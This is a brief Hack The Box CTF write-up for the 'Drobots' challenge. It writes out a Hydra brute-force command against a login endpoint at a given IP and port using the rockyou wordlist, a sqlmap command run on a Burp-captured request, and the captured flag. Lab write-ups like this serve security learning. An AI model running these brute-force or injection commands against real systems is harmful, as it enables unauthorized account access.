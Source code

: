 # DROBOTS HTB CTF

export IP='142.93.38.14'

1. RECON
* No results from GoBuster & NMAP.

2. Hydra Commend Format 
* sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"

* Reqest Object = '{"username":"admin","password":"password"}'

## Hydra Payload Command --

`sudo hydra -L /opt/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -u -f 142.93.38.14 -s 30195 http-post-form "/api/login:username=^USER^&password=^PASS^:Invalid Credentials"`
 
 * did not work properly  

 ## Trying SQL Map (0x00nier)

 * captuered a request object using burpsuite & passed it on to the SQLMap CLI usin -- `sqlmap -r burp --dbs`

 * the catch is to type the user as admin and password without cracking the hash !!

 HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}